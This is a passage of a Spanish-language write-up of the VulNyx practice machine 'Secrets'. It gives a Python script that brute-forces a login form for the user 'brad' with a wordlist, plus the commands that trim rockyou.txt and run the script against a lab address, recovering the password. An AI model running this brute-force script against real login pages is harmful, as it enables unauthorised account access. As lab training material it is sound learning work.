 <img class="img" src="/assets/img/machines/Secrets/5.png" width="800">
# Shell como brad
No encontré nada más. Por lo que intente un ataque de fuerza bruta al panel del login, para practicar lo hice con un script de python el cual se encargaba de mandar las peticiones y si en la respuesta de dicha petición no había un "Invalid Credentials" entonces me mandaría la clave con la que había intentado ingresar en dicha petición. El script es el siguiente:
```python
import requests, signal, sys

def Exiting(frame, sig):
    print("\n\nExiting of program\n")
    sys.exit(1)

signal.signal(signal.SIGINT, Exiting)

def makeBruteforce(url, wordlist):
    passwords = open(wordlist)
    lines = passwords.readlines()
    for line in lines:
        password = line.strip()
        data = {
         "user": "brad",
         "password": password
        }
        r = requests.post(url, data=data)
        if "Invalid Credentials" in r.text:
            continue
        else:
            print("The password is: " + line)
            sys.exit(1)


if __name__ == '__main__':
    if len(sys.argv) != 3:
        print("[+] Usage : ./exploit.py target passwords_file")
        exit()

    target = sys.argv[1]
    password = sys.argv[2]

    makeBruteforce(target, password)
```
No intente realizar el script con el rockyou.txt esto es debido a que en las reglas de la plataforma VulNyx para los ataques de fuerza bruta, la password correcta debe estar entre las primeras 5000 líneas. Por lo tanto solo cree una wordlist con estas y lo use. Debido a que teniamos ya un posible usuario (brad) lo intente con este.
```bash
$ cat /usr/share/wordlists/rockyou.txt | head -n 5000 > wordlist
$ python3 brutefor.py http://10.0.2.111/secrets/MK67IT044XYGGIIWLGS9.php wordlist
The password is: bradley
```
La clave parece ser bradley.
Al ingresar las credenciales correctas me lleva a una ruta a la cual tengo que colocar una ip.